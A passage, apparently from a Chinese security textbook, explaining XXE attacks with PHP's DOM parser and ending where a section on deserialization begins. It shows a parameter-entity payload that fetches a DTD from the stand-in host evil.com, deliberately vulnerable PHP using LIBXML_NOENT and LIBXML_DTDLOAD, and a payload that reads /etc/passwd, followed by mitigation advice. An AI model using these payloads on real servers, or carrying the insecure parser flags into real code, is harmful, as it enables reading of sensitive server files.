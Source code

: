 ```xml
<!-- 参数实体定义 -->
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE aaa [
    <!ENTITY %f SYSTEM "http://evil.com/evil.dtd">
    %f;
]>
<aaa>&b;</aaa>

<!-- 其中 evil.dtd 文件内容如下 -->
<!ENTITY b SYSTEM "file:///etc/passwd">
```

以 PHP 的内置 [DOM](http://php.net/manual/zh/book.dom.php) 解析 XML 为例，一个典型的存在 XXE 漏洞的代码如下：

```php
<?php
$xml = file_get_contents('php://input'); // 允许用户上传 XML 代码片段

$dom = new DOMDocument();

// ref: http://php.net/manual/zh/libxml.constants.php
// LIBXML_NOENT    将 XML 中的实体引用 替换 成对应的值
// LIBXML_DTDLOAD  加载 DOCTYPE 中的 DTD 文件
$dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD); // http://php.net/manual/zh/domdocument.loadxml.php
$user = simplexml_import_dom($dom);
$name = $user->name;
$pass = $user->pass;

echo "You have logged in as user $name";
```

正常情况下用户发送过来的数据如下：

```xml
<user>
    <name>admin</name>
    <pass>mypass</pass>
</user>
```

此时，上述 PHP 代码可以正常处理解析用户数据并回显当前登录用户名称。但如果攻击者构造如下数据发送给上述 PHP 代码：

```xml
<!DOCTYPE user [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<user><name>&xxe;</name><pass>mypass</pass></user>
```

则会回显输出服务器上 `/etc/passwd` 文件内容，攻击者达成了远程文件读取的攻击效果。

对于上述缺陷 PHP 代码来说，修改 `loadXML()` 的调用参数，去掉 `LIBXML_NOENT` 和 `LIBXML_DTDLOAD` 常量赋值即可阻止 XXE 漏洞利用成功。

为防止 XXE 攻击，应在应用程序使用的所有解析器上禁用 XML 外部实体和 DTD 处理，并使用“白名单”输入验证、过滤或净化功能。这将防止应用程序处理由攻击者嵌入 XML 文档和标头内部的恶意注入的 XML 代码。另外，确保使用的 XML 解析器引擎组件使用的是最新版本或没有已知漏洞，也能避免一些绕过 XXE 防护的攻击得手。

### 7.3.5 反序列化漏洞
